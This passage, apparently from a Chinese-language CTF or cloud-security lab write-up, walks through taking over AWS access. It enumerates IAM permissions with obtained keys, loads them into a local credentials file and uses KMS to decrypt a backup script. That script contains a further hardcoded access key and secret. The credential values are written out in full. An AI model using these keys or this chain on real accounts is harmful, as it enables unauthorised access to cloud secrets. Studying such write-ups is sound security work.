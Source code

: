 然后枚举权限

```bash
> python3 enumerate-iam.py --access-key ASIAXYAFLIG2MNAYNCIQ --secret-key tcjyvVvTU6wCpSy7o10BEBTIewfcKu1JRnRN4cSI --session-token IQoJb3JpZ2luX....

....
[INFO] -- kms.list_keys() worked!
[INFO] -- kms.list_aliases() worked!
```

有 kms 的查看 keys 权限

手动改下本机的 `~/.aws/credentials`

```
[default]
aws_access_key_id = ASIAXYAFLIG2MNAYNCIQ
aws_secret_access_key = tcjyvVvTU6wCpSy7o10BEBTIewfcKu1JRnRN4cSI
aws_session_token = IQoJb3JpZ2lu....
```

`aws kms list-keys` 发现有两个 key，然后一个个看

```bash
aws kms describe-key --key-id
```

发现有一个能用，通过描述得知用于加密解密，用这个来解密 backup.ps1.enc

```bash
aws kms decrypt --ciphertext-blob fileb://./backup.ps1.enc --key-id 038c41d9-b337-43fe-a0a3-6d622bb7131d
```

得到 base64 编码后的脚本，解码即可拿到

```powershell
Import-Module AWSPowerShell

$accessKey = "AKIAXYAFLIG2NPAE4BAQ"
$secretKey = "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"

$secretName = ""
$secret = Get-AWSSecretValue -SecretId $secretName
$secretJson = ConvertFrom-Json $secret.SecretString
$accessKey = $secretJson.accessKey
$secretKey = $secretJson.secretKey
Set-AWSCredentials -AccessKey $accessKey -SecretKey $secretKey

Set-DefaultAWSRegion -Region YOUR_AWS_REGION

$instanceId = "vault11-ws"

$volumeId = (Get-EC2Instance -InstanceId $instanceId).Instances.BlockDeviceMappings | Where-Object { $_.DeviceName -eq "/dev/sda1" } | Select-Object -ExpandProperty Ebs | Select-Object -ExpandProperty VolumeId
Write-Host "Creating snapshot of root volume for EC2 instance $instanceId..."
$snapshot = New-EC2Snapshot -VolumeId $volumeId -Description "Backup snapshot for EC2 instance $instanceId"

Write-Host "Snapshot created successfully."
Write-Host "Snapshot ID: $($snapshot.SnapshotId)"

Clear-AWSCredentials
```

